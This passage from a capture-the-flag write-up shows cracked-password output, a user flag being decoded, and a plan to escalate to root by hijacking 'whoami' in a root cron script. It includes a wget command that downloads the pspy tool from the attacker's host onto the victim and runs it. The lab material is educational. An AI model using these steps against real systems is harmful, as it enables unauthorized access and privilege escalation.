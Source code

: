 ```bash
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED>         (?)
1g 0:00:00:31 DONE (2021-11-25 22:31) 0.03191g/s 3521p/s 3521c/s 3521C/s red411..partzz
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Now we have `alejandro` and his password, let's change to his user to attempt to do *privilege escalation*. After change our user to `alejandro` we can read the `user.txt` and attempt to get the flag from it. Here's how to get the flag from `user.txt`:
```bash
cat user.txt | xxd -r -p | base64
<REDACTED>
```
Copy the flag and submit it as specified format.
Now let's escalate our privilege to be *root*. When we list the content inside `/home/alejandro` we get this following result:
```bash
drwxr-xr-x 4 alejandro alejandro 4096 พ.ย.  23 20:32 ./
drwxr-xr-x 5 root      root      4096 พ.ย.  23 09:10 ../
lrwxrwxrwx 1 alejandro alejandro    9 พ.ย.  23 20:32 .bash_history -> /dev/null
-rw-r--r-- 1 alejandro alejandro  220 เม.ย.  5  2018 .bash_logout
-rw-r--r-- 1 alejandro alejandro 3771 เม.ย.  5  2018 .bashrc
-rw-r--r-- 1 alejandro alejandro 8980 เม.ย. 16  2018 examples.desktop
drwx------ 3 alejandro alejandro 4096 พ.ย.  23 20:12 .gnupg/
drwxrwxr-x 3 alejandro alejandro 4096 พ.ย.  23 09:29 .local/
-rw------- 1 alejandro alejandro   61 พ.ย.  23 09:39 .mysql_history
-rw-r--r-- 1 alejandro alejandro  807 เม.ย.  5  2018 .profile
-rw------- 1 alejandro alejandro   22 พ.ย.  23 10:28 .python_history
-rwxr--r-- 1 root      root       144 พ.ย.  23 09:19 .test-script.sh*
-r-------- 1 alejandro alejandro   27 พ.ย.  23 09:51 user.txt
```
Notice that there is a *bash* script called `.test-script.sh` we might be on to something. The script belongs to *root* and is only *readable*, no write permission and execute permission. So we can't really do anything with that. The content of `.test-script.sh` is as follow:
```bash
#!/bin/bash

/usr/bin/ping -c 2 wttr.in
/usr/bin/nslookup wttr.in
/usr/bin/curl https://wttr.in/Bangkok
whoami
/usr/bin/id
/usr/bin/uname -snrv
```
Notice that every command in the script is in full path except one command, `whoami`. We can attempt to do *path hijacking* by creating our custom *whoami script*. But first we need to investigate how the *script* being executed and when it is being executed. We can do that by using a *script* called *pspy64s* (it can be found on *Github*). First let's host our web server (on our machine) so we can download it. I use python to host a web server.
```bash
python3 -m http.server 80
```
on the victim's machine, download it using `wget`:
```bash
wget 10.9.4.166/pspy64s
```
Let's make it executable then run it:
```bash
chmod +x pspy64s
./pspy64s
```
After a while, the result comes back:
```bash
<--snip-->
2021/11/26 11:10:02 CMD: UID=0    PID=9907   | /usr/sbin/cron -f 
2021/11/26 11:10:03 CMD: UID=0    PID=9909   | /usr/sbin/CRON -f 
```